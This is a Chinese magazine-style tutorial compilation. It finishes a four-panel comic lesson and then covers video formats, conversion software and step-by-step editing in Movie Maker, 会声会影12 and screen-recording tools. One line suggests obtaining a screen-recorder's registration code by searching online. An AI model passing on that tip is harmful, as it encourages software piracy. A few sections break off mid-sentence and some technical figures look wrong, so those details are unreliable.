第三步：按照第二步所介绍的方法，展开“人物→xiaoxin.ku”分支并切换到“[2]”选项卡，先将该选项卡中穿红衣服的人物素材拖到漫画页面1，然后选中这个人物素材并调整好大小；最后将“[2]”选项卡中穿红衣服的右边的人物素材拖到漫画页面1，同样调整好这个人物素材的大小。不过，需要注意的是人物素材的大小调整完毕后，第二个人物素材比第一个人物素材的身材（第一个是老师）要矮一些，如图3中的人物。

第四步：展开“素材库”中的“话语”分支，选择自己喜欢的形状素材拖到老师和学生的旁边，然后修改形状素材里边的文字为人物所要说的话，并设置好字体、字体的大小及颜色，接着分别选中每一个形状素材及里边的文字，最后单击图2窗口左边颜色面板中与漫画背景相适应的颜色，设置好每个形状素材的背景色，如图3。




经过以上四个步骤的操作，漫画页面1我们就已经做好了。

- 当我们将漫画页面1中的所有元素复制到其它三个漫画页面中时，插入的背景图片是不能被复制的。
- 展开“素材库”中的“场景→school.ku”分支，选中“教室”选项卡中的第八个素材，拖入到漫画页面2和漫画页面3中并调整好大小，可作为老师手中的作文本。

第一步：先选中漫画页面1中的所有元素并右击鼠标，选择“拷贝”，再分别切换到漫画页面2、漫画页面3和漫画页面4，将漫画页面1中的所有元素分别粘贴到这三个漫画页面中。

第二步：在漫画页面1以外的其它三个漫画页面中，分别插入C.JPG作为漫画背景，接着调整好第一步复制到这三个漫画页面中的所有元素的位置，使之整齐美观，最后再修改这三个漫画页面中的人物对话。

第三步：切换到漫画页面4，先单击风漫工具栏中的“多种编辑模式”按钮，然后选中穿红衣服的老师人物素材，调整老师人物素材在漫画页面4中的位置，使之晕倒在地上。

- 在漫画页面3，当老师听到学生那句“这就是懒惰”的经典话语后，在漫画页面4中老师会有一个晕倒的举动，因此必须调整老师的位置，使其晕倒在地上。

### 四、四格漫画的发布
到了现在，四格漫画的创作就已经彻底完成了，单击图3窗口中的“电子书”按钮，打开“电子书:选择模板”窗口，选择自己喜欢的模板（建议选择第一个模板），单击窗口中的“下一步”按钮，进入“电子书:相关信息”窗口，在这个窗口中输入与我们创作的四格漫画有关的文字信息（如图4），继续单击“下一步”按钮，直到完成与四格漫画有关的电子书的发布工作。



如果大家在发布电子书的过程中没有改变电子书的保存位置，打开“C:\draw\result”目录，就可以看到生成的四格漫画电子书——“什么是懒惰.chm”了。打开看看，效果是不是很不错呀？发给远方的“Q弟Q妹”，一定能够为自己赢得很多羡慕的眼光。还犹豫什么，大家也赶快试试吧！

# 玩转视频：探索视频编辑背后的奥秘

现在，DC（数码相机）和DV（数码摄像机）日趋流行，并逐渐成为一种时尚。在2008年北京奥运会开闭幕式上，我们经常会看到运动员们手举着小巧的摄像机，开心地记录着晚会现场。这些摄像机重量很轻，几乎与普通照相机相仿，拍摄、携带和输出都很方便。实际上，这只是视频制作中很小的一个部分，要真正玩转视频，还需要了解采集素材、深度加工素材、编辑特效、保存输出等典型步骤。其中，采集素材就是把拍摄的DV影片通过USB或是1394接口，捕获到电脑硬盘上；或者搜集已有的素材；编辑就是对影片重新进行剪辑、排列顺序，并添加一些转场、特技，以丰富影片的可观赏性与衔接；最后的保存输出就是把处理好的影片保存到电脑上或者发布到网络，或刻录到光盘上。由此可见，“玩转视频”是一个系统的工作。鉴于此，本专题循序渐进，按照视频基础知识、个人视频创作以及专业视频制作的层次，给广大用户奉送一份精美的视频“大餐”。

> ◆文/风之扬

# 预备篇 视频编辑与制作基础技术

视频素材多数来自现有的视频节目，例如录像带、VCD/DVD节目，这些视频素材可以通过计算机视频捕获卡转换为数字视频文件并存储至计算机中。而互联网技术的发展，也使得用户获取视频素材的渠道更加丰富。总体而言，视频文件包括影像文件和流式视频文件，影像文件在VCD文件中见得比较多，流式视频文件则是随着互联网发展起来的。

### 1. 对号入座：了解常见的视频格式

一般而言，什么格式的文件就有什么样的播放器对应：MOV格式文件用QuickTime播放，RM格式的文件当然用RealPlayer播放。为了便于理解，在参考“视频转换大师”(http://www.skycn.com/soft/12521.html)视频应用的基础上，我们对视频格式进行了分类，并对其中的典型格式进行介绍。如表1所示。

**表1 常见音视频格式分类**

| 分类 | 代表性格式 |
| :--- | :--- |
| 移动格式 | ASF、MP4、H264/AVC、3GP、DC、PSP、Apple/iPod、Nokia、Sony、Amv |
| AVI格式 | Divx/Xvid、Ms Mpeg4、MJPEG、Lossess、H264 |
| 网络格式 | SWF、FLV、GIF、WMV、RMVB |
| MPEG格式 | DVD、SVCD、VCD、MPEG2、MPEG1、QuickTime、MOV、mpeg2 TS、Jpeg Images |
| 音频格式 | CD/WAV、MP3、AAC、WMA、FLAC、AMR/AWB、OGG、AC3、AU |

- **（1）移动格式**
    主要包括ASF、MP4、H264/AVC、3GP、DC、PSP、Apple/iPod、Nokia、Sony、Amv等。这些格式的重要特征就是移动性强、携带方便。以ASF格式为例，ASF是Advanced Streaming format的缩写，即高级流格式。它是微软为了和Real Player竞争而推出的一种视频格式，用户可以直接使用Windows自带的Windows Media Player对其进行播放。由于它使用了MPEG-4的压缩算法，所以压缩率和图像的质量都很不错。

- **（2）AVI格式**
    主要包括Divx/Xvid、Ms Mpeg4、MJPEG、Lossess、H264等。AVI的英文全称是Audio Video Interleave，叫做音频视频交错。所谓“音频视频交错”，就是可以将视频和音频交织在一起进行同步播放。它最大的优点是兼容性好、调用方便、图像质量好。缺点在于：尺寸大，窗口越大，文件的数据量也就越大。尽管降低分辨率可以大幅减低它的体积，但图像质量就必然受损。此外，还有DV-AVI格式、NAVI格式等。其中，DV-AVI是由索尼、松下、JVC等多家厂商联合提出的一种家用数字视频格式，目前非常流行的数码摄像机就是使用这种格式记录视频数据的。它可以通过电脑的IEEE 1394端口传输视频数据到电脑，也可以将电脑中编辑好的视频数据回录到数码摄像机中。这种视频格式的文件扩展名一般也是.avi，所以我们习惯地叫它为DV-AVI格式。

- **（3）网络格式**
    主要包括SWF、FLV、GIF、WMV、RMVB等。以应用较多的RM格式和RMVB格式为例。RM格式即Real Media的缩写。RM采用一种“边传边播”的方法，即先从服务器上下载一部分视频文件，形成视频流缓冲区后实时播放，同时继续下载，为接下来的播放做好准备。这种“边传边播”的方法避免了用户必须等待整个文件从Internet上全部下载完毕才能观看的缺点。RMVB格式则是一种由RM视频格式升级延伸出的新视频格式，它的先进之处在于：打破了原先RM格式那种平均压缩采样的方式，在静止和动作场面少的画面场景采用较低的编码速率，从而留出更多的带宽空间。这样，在保证了静止画面质量的前提下，大幅地提高了运动图像的画面质量，从而在图像质量和文件大小之间达到了微妙的平衡。此外，WMV格式应用也十分普遍，它的英文全称为Windows Media Video，也是微软推出的一种采用独立编码方式并且可以直接在网上实时观看视频节目的文件压缩格式。WMV格式的主要优点包括：本地或网络回放、可扩充的媒体类型、可伸缩的媒体类型、多语言支持、环境独立性、丰富的流间关系以及扩展性等。

- **（4）MPEG格式**
    主要包括DVD、SVCD、VCD、MPEG2、MPEG1等。MPEG格式

- **（5）高清格式**
    主要应用于网络传输，包括Divx/Xvid、Ms Mpeg4、MJPEG、Lossless、H264等。以DivX格式为例，DivX是由MPEG-4衍生出的另一种视频编码（压缩）标准，也即我们通常所说的DVDrip格式。MPEG在开始的时候建立了四个版本：MPEG1～MPEG4，分别适应于不同的带宽和数字影像质量的要求。在这里，DivX采用了MPEG4的压缩算法，同时又综合了MPEG-4与MP3各方面的技术，其画质直逼DVD，而体积只有DVD的数分之一。

- **（6）QuickTime格式**
    主要包括MOV、mpeg2 TS、Jpeg Images等。这是美国Apple公司开发的一系列视频格式，默认的播放器是苹果的Quick Time Player。QuickTime是一种跨平台产品，利用QuickTime播放器，我们能够很轻松地通过Internet观赏到以较高视频/音频质量传输的电影、电视和实况转播节目。以MOV格式为例，其英文全称是Movie digital video technology，它具有较高的压缩比率和较完美的视频清晰度等特点。QuickTime文件格式支持25位彩色，支持领先的集成压缩技术，提供150多种视频效果，并配有提供了200多种MIDI兼容音响和设备的声音装置。

- **（7）音频格式**
    包括CD/WAV、MP3、AAC、WMA、FLAC、AMR/AWB、OGG、AC3、AU等。其中，MP3、AAC、WMA等都是比较常用的音频格式，在视频编辑中应用也比较普遍。

### 2. 全能播放：让格式转换畅通无阻

由于视频格式和视频播放器种类较多，我们经常会遇到一些难题，比如：无法用现有的播放器播放一些不熟悉的文件格式，无法将容量较大的文件转换成较小的文件格式，无法将电脑里的视频在手机、PSP、MP4、IPOD等设备上播放等等。为此，我们挑选了多种视频转换工具，从多个角度进行讲解。

- **（1）通用视频文件转换**
    如果转换一般的视频格式，使用软件“Total Video Converter”即可，它能够读取和播放各种视频和音频文件，并且将它们转换为流行的媒体文件格式。
    软件下载地址：http://www.skycn.com/soft/27025.html
    第1步：导入文件并选择转换类型
    打开软件，点击“新建任务→导入文件”，导入需要转换的文件，进入转换界面。在这个界面中，对需要转换的文件格式进行了分类，分别是：随身播放机、转换并刻录、视频文件、音频文件，用户可以根据自己的需要灵活选择。例如，选择MPEG按钮下的MPEG1格式。如图1所示。
    值得一提的是，“Total Video Converter”支持的格式十分丰富，它对常用的视频格式提供了强大的支持，可以把各种视频格式转换成手机、PDA、PSP、iPOD等使用的便携音视频格式，尤其是高度兼容RMVB和RM格式。在普通播放方面，能够将各种视频转换成标准的DVD/SVCD/VCD。
    第2步：转换参数设置
    选择格式后，进入到转换界面。在这里，可以设置转换的质量水平，分别是：normal quality（一般质量）、high quality（高质量）、lower quality（低质量）。单击这些选项后面的“设定”按钮，还可以设置音频选项、视频选项等。以视频选项为例，这里包含了视频编码、帧率、比特率等。由此可以看出，“Total Video Converter”在视频转换质量控制方面还是十分到位的。如图2所示。
    第3步：开始转换
    设置完毕，回到转换界面。选择需要输出的文件路径，然后点击“立即转换”按钮，剩下的就是等待转换完成了，其他格式的转换方法与之类似。
    此外，随着PSP、MP4以及各种数码播放器的普及，数码设备视频转换的需求也越来越多。不过，这些播放器并不能直接支持DVD格式的播放。对于这些格式转换方面的问题，可以使用“视频转换大师”，软件下载地址为：http://china.winmpg.com。软件界面十分简洁，它几乎涵盖了所有流行的影音多媒体文件格式，并能将它们快速转换为流行的媒体文件格式。

- **（2）Flash视频转换**
    现在，FLV视频十分盛行，以FLV视频为主的视频网站比比皆是。如果我们有一些DVD大片，能否将其转换为FLV格式并存在硬盘上呢？“Gogo DVD to Flv”可以帮我们解决这个问题，而且，该软件的中文版本在现阶段完全免费。
    软件下载地址：http://www.onlinedown.net/soft/58900.htm
    第1步：打开DVD并设置转换片长
    软件运行后，单击“打开DVD”按钮，将路径定位到光盘所在的盘符。若不作任何设置，则软件默认是转换整部影片；若只想转换其中一部分，可选择菜单“设置→DVD分割→设置”，在弹出的进度指示条中，分别设置转换的起始和结束的时间参数即可。如图3所示。
    第2步：设置输入参数和输出参数
    点击界面上的“输入设置”按钮，在弹出的对话框中设置音轨、音量、字幕和亮度等参数，并勾选“音视频同步”。设置输出参数时，点击界面上的“输出设置”按钮，在弹出的对话框中设置视频比特率、视频帧率、帧大小以及音频参数。值得注意的是，音频和视频的码率越高，输出的FLV文件体积就越大，因此可以设置较低的码率，在图像声音质量与文件体积之间取得平衡。
    第3步：生成FLV文件
    单击界面中“保存”栏的按钮，选择文件保存路径，并在“输出”栏的“标题”部分输入转换后的名字。然后，单击“开始”按钮，软件即可对所选择的DVD片段执行转换操作。
    上面只是列举了比较有代表性的一些转换软件，实际应用中还有许多优秀的软件，如超级转换秀白金版、Ultra AVI Converter、WinAVI Video Converter、豪杰视频通、掌中影音伴侣、lato Video Convertor、MP4视频转换通、Speed Video Converter、Allok AVI to DVD等，尤其是一些专用格式转换软件，能够大大提高某一类格式的转换质量，给用户带来良好的视听感受。

### 3. 逐级优化：打造高质量视频素材

视频文件的制作通常可以分为三个阶段，即采集、编辑和编码压缩。不过，在制作过程中，经常会遇到视频丢帧、锯齿、没图、没声音，或者视频出现画面暗淡、抖动、色彩失真等现象。下面，针对这些典型现象进行讲解。

- **（1）检测缺少的视/音频编码**
    观看视频的时候，往往会出现没有图像或没有声音的情况。除了视频文件本身的问题，大多数是因为电脑中编码不全所导致的。通过AfreecodecVT软件，可以迅速解决录像的音频和视频的编码问题。
    软件下载地址：http://www.onlinedown.net/soft/58078.htm
    运行AfreecodecVT，选择无法正常播放的视频文件，稍等片刻就会出现检测结果，通过详细的参数就可以了解电脑缺少什么视/音频编码。如图4所示。
    不过，AfreecodecVT本身并没有提供视/音频编码，只能探测视/音频编码的名称，并且给出了Google中的下载链接。点击链接，就可以对视/音频编码进行搜索下载。最后，对缺少的视/音频编码进行安装，就可以正常播放视频文件了。

- **（2）减少视频马赛克现象**
    现在很多手机都带有视频播放功能，不过跟DV相比，手机的拍摄效果要差一些。很容易出现马赛克。怎么才能够提高手机的拍摄效果呢？硬件上改善肯定是不行，只有从软件上着手。Dee Mon Video Enhancer是一款提升视频质量的软件，通过采用大量的VirtualDub滤镜和附加编码重新压缩的视频处理，可以将马赛克进行还原，从而提高视频质量。
    软件下载地址：http://www.skycn.com/soft/28251.html
    这个软件的使用方法很简单，在主页面中点击浏览按钮，选择要提升质量的视频文件。然后，选择视频的大小以及转换后的视频格式。要是对视频比较熟悉，可以进入高级模式，添加视频滤镜来增强视频质量。设置完毕，选择视频文件输出路径，最后点击“开始”按钮，即可对所选视频进行转换。转换完毕，再播放优化后的视频，会发现视频中存在的马赛克现象明显减少。

- **（3）解决视频采集中的丢帧与锯齿问题**
    丢帧和锯齿是我们在视频采集时最常遇到的问题。丢帧是由于软硬件因素造成一定数量的帧画面没有采集到的情况。要解决丢帧的问题，首先，要尽量使电脑配置满足采集要求，最好使用更加稳定高速的SCSI接口硬盘。其次，要尽量避免用于视频采集的1394卡与其他设备共用一个IRQ号，以免造成相互干扰的现象。再次，在采集时最好使用USB2.0接口，而且不要运行其他软件。
    锯齿则是在采集的视频画面上出现的锯齿状杂纹，这也会降低画面质量，影响影片的视觉效果。要避免在电脑上播放时出现锯齿，就要在采集或编辑时进行合适的设置，不要选隔行扫描方式，选择“逐行扫描”和“去交错”。比如在“会声会影12”等编辑软件中，点击“文件→参数选择→捕获”，勾选“捕获图像时去除交织”后就可避免锯齿。

- **（4）视频速度不均匀**
    在使用数码摄像机拍摄的时候，往往会出现播放速度不均匀的情况。出现这种现象的原因有：主机资源占用率高，1394卡兼容性较差或DV磁带老化。要解决这些问题，可以从以下方面着手。首先，针对主机资源占用率高的现象，采集视频的机器CPU主频越高越好，内存至少要1GB以上。在采集过程中，尽量关闭无关的软件，在采集软件时进入Windows资源管理器，找到视频采集软件的进程，并将此进程的优先级设置为“高”或者“高于标准”，这样就可以确保系统资源全部为这个软件服务。其次，针对1394卡的兼容性问题，建议更新1394驱动程序。如果有厂商提供的程序，尽量使用厂商提供的程序，选择1394卡的时候也尽量选择大厂的产品，不要去选择一些杂牌桥接芯片的山寨货。再次，针对DV磁带老化的问题，在拍摄DV的时候尽量使用全新的磁带，而不要重复多次使用放置已久的磁带。

# 进阶篇：个人视频制作实用技术

现在，个人视频编辑的场合越来越多，通过视频DIY，可以尽享数码摄像制作的乐趣。不过，专业化的制作工具往往让普通用户望而却步。要让资质尚浅的令狐冲“笑傲江湖”，还必须窥破剑术玄奥，习得“独孤九剑”，从而成为视频制作的高手。

### 1. WMM：一站式服务让视频制作更简单

Windows Movie Maker（以下简称WMM）是Windows自带的视频制作工具，单击“开始→程序→Windows Movie Maker”即可打开。它的窗口界面与Windows Media Player一脉相承，从捕获视频、编辑制作、添加特效、字幕和音效等，直到最后输出成影片，都可以一气呵成。启动WMM的操作界面可发现，最左边是“电影任务”区，中间部分是用来存放捕获素材的“收藏”区，右侧则是预览区，下方是“显示时间线”编辑区，用户可将素材、特效、过渡、配音等项目放在这里，根据脚本设计灵活安排。

- **第1步：获取视频素材**
    使用视频素材之前，首先需要对其进行增删操作。在WMM主界面上切换至“任务区”，准备导入不同的素材。除了从DV机捕获影片外，WMM也能导入其他素材，包括多种格式的影音文件、静止图片文件、音频文件（如MP3、WAV）。需要注意的是，导入的素材与捕获的素材略有区别，每导入一个素材，就是一个独立的收藏。具体方法是点击界面左边“电影任务”区域的“导入视频”选项，再选中相应文件夹的影像文件。例如，导入一个神舟七号载人航天飞船的视频。

- **第2步：增加素材到时间线**
    WMM有两种工作模式，分别是“情节提要”模式和“时间线”模式。用户可以在主界面下方进行切换。由于时间线模式能够让用户了解所有素材、过渡、效果等之间的时间及次序关系，因此一般用户都喜欢采用时间线模式。使用鼠标在片段的开始或结尾单击并拖曳，就可以改变片段的播放时间。例如将一个30秒的片段缩短成20秒，则尾部的10秒将被删掉。对于个人用户来说，“情节提要”模式则易于理解。在收藏区选中一个素材并点击鼠标右键，再点击“属性”选项，即可查看该素材的信息。如图5所示。

- **第3步：加入视频效果**
    为了使电影的画面更丰富，可以为影片素材增加一些视频效果。视频效果包括画面本身的变化、旋转、模仿旧电影胶片、色调变化等等。用户可根据喜好进行挑选。方法是在时间线上选择指定影片片段并单击鼠标右键，然后在弹出的菜单中选择“视频效果”。在随后弹出的窗口中，左方列出了所有可用的效果，选中后按“添加”便可加入到电影片段中。如图6所示。

- **第4步：增加过渡效果**
    对于电影整体来说，片段之间的过场衔接其实也很重要。要增加过渡效果，首先要将时间线的光标拖到某一个片段的最后位置，然后在过渡效果的图标上单击鼠标右键，选择“添加到时间线”。该过渡效果会自动添加到光标所在的片段与片段之间的位置。

- **第5步：处理音频**
    在时间线模式中，图像画面与音频是同步显示的。在时间线的“音频”栏上单击鼠标右键就会弹出音频设置菜单。用户可以针对个别片段的音频，增减音量以取得平衡，也可以为片段添加特殊的音频效果。用户只要将音效素材直接从收藏区拖到“音频/音乐”轨即可。

- **第6步：收录旁白**
    在时间线左侧点击麦克风图标，就会出现旁白录制画面。软件默认的是使用麦克风录音，不过也可以选用其他音频设备。如果原先的电影片段已经设置了配乐，新增旁白音轨会使原有的音轨向后推，因此录制旁白时要准确计算好时间。

- **第7步：制作字幕**
    WMM提供了多种字幕制作方法，甚至包括片头、片尾制作人员名单等，十分专业。在软件的功能界面“电影任务”区中点击“编辑电影→制作片头或片尾”，在随后出现的菜单中，用户可以根据需要选择字幕加在什么位置。以制作“片头”为例，在电影开头处加上片头，然后在文字框中输入片头文字内容即可。WMM提供了各种片头动画效果，包括滚动透视效果、爆炸式外形轮廓等数十种。此外，还可以设置字幕的字体及背景颜色、字体的透明程度等。如图7所示。

再就是“在电影结尾添加片尾”，这部分采用的是固定的表格形式，表格左侧是人员职位，在字幕中以较小字体显示出来；右侧是演员名单，字体较大。用户逐一输入即可。

## 第8步：输出电影

单击程序主界面中的“电影任务→完成电影”，可以完成影片输出。输出方式包括：保存到电脑、保存到光盘、以电子邮件传送、传送到网络中的影音服务器以及传送到DV摄像机等。

## 2. 屏幕录像视频制作技巧

在制作教程类、演示类视频文件时，常常需要将操作步骤和鼠标移动轨迹截获下来。这里主要介绍“屏幕录像专家”，这是一款专业的屏幕录像制作工具，它可以轻松地将屏幕上的软件操作过程等录制成FLASH动画、AVI动画、ASF（微软流媒体格式）动画或者自播放的EXE动画。如需注册，通过网络搜索就可以得到注册码。

软件下载：http://www.tlxsoft.com

### 第1步：录制准备

开始录制时，需要设置正确的显示颜色值。设置方法如下，在电脑桌面上空白处按鼠标右键，在弹出的菜单中点击“属性”，到“设置”页面进行设置即可。如果需要同期录音，那么还要注意将话筒连好，并用Windows附带的“录音机”程序测试正常。

### 第2步：直接录制生成方式

该方式可直接录制生成EXE动画或AVI动画。软件运行后，直接进入录制模式基本设置界面，在界面右侧选中“直接录制生成”，选中“EXE”或“AVI”。如果想改变参数，点击旁边的“设置”按钮接口。开始录制时，单击右上方的“开始录制”按钮，或者直接按F2开始。录制完毕，在左下角的列表中就可以找到录制的AVI文件。在“生成模式”选项卡中，用户可以设置在录制的录像文件中要显示的文字。如图8所示。



录制时也可使用录制再生成方式。此方式不直接生成动画文件，录制后会形成一个录像文件，并在“录像文件列表框”中显示出来。利用这个录像文件就可以生成动画文件了，此时生成的中间文件格式为LX。

### 第3步：后期配音及格式转换

在“生成模式”下，用户还可以进行后期配音。选择要配音的AVI文件，然后使用菜单“编辑→AVI后期配音”选项，在弹出的窗口中，按“现在配音”即可。如果要输出其他格式，可以单击“工具”菜单下的相关格式选项。例如，把EXE录像文件转换成FLASH录像时，在文件列表框中选中录像文件，然后使用“编辑→EXE转成FLASH”命令，软件会弹出设置界面，然后点击“确定”按钮就可以了。如图9所示。



值得一提的是，除了“屏幕录像专家”，还可以使用Wink、Camtasia Studio 5等屏幕录像软件，使用方法与上述软件比较类似。

## 3. 轻松制作个性化视频光盘

“电影魔方”是一款品质优秀、功能强大、操作简单的多媒体数字视频编辑软件。软件采用了自由组合的窗口模式，在预览、字幕、编辑、转场等方面功能十分强大，可以创作出各种不同用途的多媒体影片，并且可以刻录成VCD或DVD光盘。而且，该软件的官方网站提供了免费注册码申请，只要填写了正确的E-mail地址后就能收到注册码。

软件下载地址：http://www.wanbosoft.com/

### 第1步：导入图片

点击主界面左侧上面的“文件”按钮；然后点击其中的“图像”再点击上方的“打开”按钮。这时弹出一个打开图像窗口，就可以把需要做成视频的所有照片或图片先添加到项目管理器里，以便下一步编辑和调用。

### 第2步：添加转场效果

使用转场效果会使影片保持视觉的连贯性，给影片增加精彩的视觉效果。点击界面左侧上部分的“效果”按钮，进入效果面板，然后选择一种效果并直接拖动到两幅图片之间即可。

### 第3步：插入视频文件

如果想在图片之间插入视频片段，点击“文件”下的“视频”选项，再点击上面的“打开”按钮将一段视频文件添加到管理器当中，然后再将该视频拖放到时间轴最上面的视频轨道上面。如图10所示。



### 第4步：添加字幕和音乐

点击导航条上面的T和笔形的按钮，切换到字幕编辑器的文字标签页，激活编辑窗口后就可以输入文本和创建字幕了。使用同样的方法，还可以将音乐文件添加到项目管理器当中。

### 第5步：输出影片

制作好影片后，点击界面右下角的输出按钮，弹出“另存为”对话框，点击“保存”按钮即可。

总之，在制作过程中，我们可能会面临着各方面的编辑要求。比如，给视频添加时间信息时，可以使用DVdate6.21（下载地址：http://www.onlinedown.net/soft/48605.htm）；需要给视频进行比较专业的配音或者需要剪辑MPG影片时，可以使用TMPGEnc MPEG Editor（下载地址：http://tmpgenc.pegasys-inc.com/en/product/tme20.html）。这些小巧而实用的工具，可以大大提高普通用户的制作水平。

## 提高篇 专业视频创作实用技巧

为了便于讲解，这里主要推荐“会声会影12”，这是一款面向普通用户的视频后期制作软件，它的窗口和按钮设计卡通化，可以对视频素材进行切割、缩放调整、色彩修正、声音调整等常见的剪辑操作。

### 1. 准备工作：剧本创作和素材整理

“万丈高楼平地起”，要创作一部优秀的短片，一些基本的工作是必不可少的。比如，剧本的创作、音频和视频素材的搜集等。

#### (1) 剧本创作

剧本是由画面讲述出来的一个故事。无论是改编短剧还是动画片，要打动观众不能单单依靠情节，很重要的方面是需要塑造角色的形象，并使之具有独特的行为、语言以及鲜明的个性，从而在观众的脑海里留下深刻的印象。写一个剧本时，首先要构思好故事走向、人物关系、情节高潮、主题思想等……美国好莱坞有一套编剧规律：即开端、设置矛盾、解决矛盾、再设置矛盾、结局，中国也有自己的编剧规律：起、承、转、合，两者在结构上大同小异。

以经典童话故事《三只小猪》的故事结构为例。第一阶段是“起”，即三只小猪都要建房子，方法各有不同；第二阶段是引起行动的冲突，即“承”，在这个情节里，大灰狼吹倒了猪大哥和猪二哥的房子；第三阶段是高潮，即“转”，狼冲进猪小弟的屋子；小猪巧施妙计，打败了大灰狼；第四阶段是结局，即“合”，三只小猪明白了勤奋的道理，并快快乐乐地生活着。这对于普通用户有很好的借鉴意义，因为制作技术始终是为内容服务的。因此，掌握了剧本创作的基本结构，就可以在搜集素材、动画设计、音视频管理等方面有的放矢并更加专业了。

#### (2) 搜集素材：视频、图像、色彩和音频

根据剧本的场景设计，就可以有针对性地收集素材了，其内容可以是电影、电视、广告片，如果自己有DV摄像机的话，还可以加入一些拍摄的内容。启动“会声会影12”，就可以看到软件的大致界面。其中，菜单可以分为两大部分，左侧为文件、编辑、素材和工具部分；中间为捕获、编辑、效果、覆叠、标题、音频和分享按钮，单击可以进入相应的界面。软件的中央位置为影片预览窗口，左侧为属性窗口，右侧为素材窗口，下方为轨道窗口。软件界面如图11所示。

**第一，视频和图像的搜集**

除了从网络或素材资源光盘搜集视频和图像，从摄像机捕获视频是一种很重要的素材搜集方式。通过IEEE1394卡和IEEE1394线将摄像机与计算机正确连接，然后将摄像机切换到VTR（VCR）档。在“会声会影12”中，单击“捕获”按钮，在左上角设置捕获的视频来源、格式以及保存文件夹。再点击下面的“捕获视频”按钮，这时软件就会指挥DV摄像机开始播放拍摄的视频。采集视频的时候，一般都采用AVI格式。也可以进行“成批捕获”，即从录像带上捕获不同位置的视频片断。



**第二，色彩素材的搜集**

色彩素材通常用在标题和转场之中。比如，可以使用黑色素材来产生淡出到黑色的转场效果，这种方式适合于处理片段或影片的结束，将开场字幕放在色彩素材上，然后使用交叉淡化的效果。比如，在《三只小猪》的创作中，淡黄色的背景就能够收到很好的效果。如果要获得更多的色彩素材，可以自定义色彩，通过“友立色彩拾取器”或“Windows色彩拾取器”可以完成。

**第三，音频素材的搜集**

没有声音，任何精彩的画面也会黯然失色。获得声音素材的方法很多，最典型的方法是通过麦克风录制声音。设置Windows中的音频属性后，将麦克风插入正确的Audio-in插孔，进入“会声会影12”的音频界面，在选项面板上选择“录制声音”按钮，系统会弹出调整音量对话框，单击“开始”按钮，就可以开始录音了，录制完毕，声音文件将自动加入到声音轨中。另外，还可以从CD获取音乐。录制配音文件时，最好按照排列好的影片效果，对照口型写出相应的台词，然后再录制下来保存为一个单独的声音文件。

完成上面的工作后，需要将这些搜集的视频、图像、色彩或声音等素材文件插入到视频轨上，以下的典型方法具有通用性。以插入视频为例：
- 第1种：在素材库中选取素材并将其拖动到视频轨上。按住Shift或Ctrl键，可以选取多个素材。另外，“会声会影

### 2. 深度加工：字幕、视频和音频的制作技术

如同设计一栋宏伟的建筑之前需要准备各种钢筋、水泥等原料一样，在视频编辑时，也需要对各种素材进行修饰或修改，以供后面合成一段情节、效果俱佳的影片。

#### (1) 剪辑视频

犹如一个善于创新的能工巧匠，搜集完素材之后，后期的剪辑加工就显得尤其重要了。

- 第1步：将视频文件拖放到轨道窗口的故事板视图中，切换到时间轴视图。拖动时间轴上的标尺，可以准确定位影片的播放时间。对于不同类型的文件，场景检测的方式可能有所不同。这时，单击选择待编辑的视频并点击右键，打开“按场景分割”选项，系统会弹出“场景”对话框。
- 第2步：扫描分段。选择“场景”对话框中的“选项”按钮，系统会弹出“敏感度”对话框，精度值越高则检测的精密程度越高。选择后，在“场景”对话框中单击“扫描”按钮开始场景检测扫描，扫描完毕可以将文件自动分为几段。如图12所示，即将一段很长的视频分割为80个场景。



- 第3步：连接与分割。在“场景”对话框中的右边是预览窗口，利用它可以查看分割后的情况。如果不符合要求就重新分割。如果需要将其中两段合为一段，可以选中其中一段激活“连接”按钮，系统将直接把这两段连接起来。分割的方法与之类似。
- 第4步：多重修整视频。“会声会影12”提供了“多重修整视频”功能，它可以完整地控制要提取的素材。打开需修整的一段视频，然后找到需保留视频的开始处，点击“起始”按钮或按下F3键，再找到保留视频的结尾处，点击“终止”按钮或是按下F4键，然后点击确定按钮，这样就能够把不需要的视频删除掉了。通过多次分割、修整，就能使画面更加流畅，画面质量也更高、更具观赏性。

需要注意的是，使用上面的方法修整影片后，仅仅是改变了开始标记和结束标记的位置，并没有真正对影片进行剪切。只有在最后的“分享”步骤中，通过创建视频文件才会删除所标记的不需要的部分，在这之前仍然可以随时修整位置。

#### (2) 精加工素材

分割视频属于粗加工视频，某些内容可能分得不太准确。因此，常常要去掉多余的头尾或者中间的部分，这就要用到精加工视频了。

- 第1步：首先将标尺移动到我们想要截取影片片段的开始处，将标尺移动到画面的开始处，然后单击影片预览窗口右下方的剪辑素材按钮（就是那个剪刀按钮），影片就会在这里被截断。
- 第2步：按照同样的方法，将标尺移动到结尾处，使用剪辑素材按钮，将影片截断，这样整个影片就被分成了三部分，其中中间那一段就是需要的部分。在“故事板视图”中分别单击第一段和第三段视频，直接删除就可以了。
- 第3步：将视频保存为一个单独的文件。单击“分享”按钮，在软件左侧选择“创建视频文件”，选择“与第一个视频素材相同”选项。然后在弹出的窗口中输入文件名，保存即可。

#### (3) 标题和字幕技术

仔细观察现在的流行大片，在片头、片尾以及中间需要重点说明的地方，我们会发现其中的标题和字幕特别多。因此，对于自己创作的短片来说，加上标题和字幕就更有电影的味道了。制作标题时，单击素材库右边的下三角按钮，在弹出的菜单中选择“标题”命令，切换到“标题”界面。在标题效果区域，选择合适的文字动画效果后，直接拖放到时间轴下方的标题轨，或者右键单击某个文字动画效果，选择“插入到→标题轨”，即可插入标题。当然，字幕效果还有淡化、弹出、翻转等，可以根据剧本需要灵活调整。通过这些方式的完美配合，几乎可以把一些电影里面的效果很轻松地制作出来。如图13所示。



#### (4) 音频素材的加工技术

下面，我们来看看如何对音频素材进行加工。

- 第1步：声音素材加入后，一般在声音轨中。音频与字幕是一样的，它也是有顺序与时间长短的，其操作方法与字幕相差不大。单击“音频”按钮，在软件的左侧会出现“音乐和声音”窗口。对声音文件进行剪辑的方法很简单，将鼠标放在黄色的修整手柄上，待鼠标变为大小不等的双箭头形状时，按住鼠标拖动便可以剪辑加入的音频文件了。
- 第2步：确定需要剪辑区域的起始标记，然后利用播放按钮边听边测试，直接按F3键或者点击开始标记按钮，可以设定起始标记；然后按F4键或结束按钮，可以确定要剪辑区域的结束位置。设置完毕，单击类似剪刀的按钮完成剪辑。如图14所示。
- 第3步：设置声音属性。在音乐和声音窗口中，可以改变声音的播放时间。为了避免音频被修剪的开始或结束位置过于生硬，可以单击选项面板上的淡出按钮，使声音在结尾部分逐渐变小；或者单击淡入按钮，使开始部分的音量逐渐增大。

